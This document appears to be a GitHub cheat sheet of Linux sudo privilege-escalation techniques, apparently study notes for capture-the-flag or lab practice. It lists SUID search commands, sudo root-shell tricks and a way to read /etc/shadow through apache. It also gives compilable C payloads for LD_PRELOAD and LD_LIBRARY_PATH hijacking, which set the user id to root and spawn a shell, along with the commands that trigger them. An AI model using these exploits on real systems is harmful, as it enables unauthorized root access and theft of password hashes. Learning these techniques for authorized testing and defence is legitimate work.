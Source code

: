 #### Useful commands
- Run program using sudo
  - sudo [program]
- Run porgram as specific user
  - sudo -u [username] [program]
- List programs a user allowed to run:
  - sudo -l

#### Searching SUID file (SUID file is a special type of file permission given to a file
- find / -perm -u=s -type f 2>/dev/null
- find / -perm -4000 -type f 2>/dev/null
- find / -uid 0 -perm -4000 -type f 2>/dev/null
- find / -type f -perm -g+s -exec ls -ald {} \; 2>/dev/null
- find / -user root -perm -002 -type f -not -path "/" 2>/dev/null

#### Other way to privileges
- sudo -s
- sudo -i 
- sudo /bin/bash
- sudo passwd

#### gtfobins
- https://gtfobins.github.io/

#### Case study
- use apache for read shadow file
```
sudo -l output: /usr/sbin/apache2
apache read a line of syntax error
sudo apache2 -f /etc/shadow
```
#### Environment Variables
##### Program run through sudo can inherit the environment variables from the user's environment
in sudowrs config file if env_reset option is set sudo will run programs in a new, miniml env
config options are display when running sudo -l

### LD_PRELOAD
is an environment variable can be set to path of shared object (.so) file
When  set, the shared object will be loaded before any others.
By creating a custom .so and creating init() function, we can execute code as soon as teh object is loaded

sudo must be configured to preserve the LD_PRELOAD environment variable using the env_keep option

LD_PRELOAD will no work if the real user id is defferent from the effective user ID

###### case study
```
sudo -l 
  search for env_keep+=LD_PRELOAD 

create c file:

#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _init(){
  unsetenv("LD_PRELOAD");
  setresuid(0,0,0);
  system("/bin/bash -p");
}
- complie gcc -fPIC -shared -nostartfiles -o /tmp/preload.so ourfile.c

exploitation: sudo LD_PRELOAD=/tmp/preload.so find
```

##### LD_LIBRARY_PATH: env variable contains a set of directories where shared libraries are searched for first

ldd command can be used to pritn the shared libraries
```
ldd /usr/sbin/apache2
```
by createing a shared library with the same name as one used by a program  and setting LD_library_path to its parent  the program will load our shared_library instead 

###### case study
```
sudo -l : search for env_keep+=LD_LIBRARY_PATH
output:
/usr/sbin/apache2
pic one of so file in ths case: libcrypt.so

ldd /usr/sbin/apache2

create c file
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
  unsetenv("LD_LIBARY_PATH");
  setresuid(0,0,0);
  system("/bin/bash/ -p");
} 

- complie: gcc -o libcrypt.so.1 -shared -fPIC ourfile.c
sudo LD_LIBRARY_PATH=. apache2
```
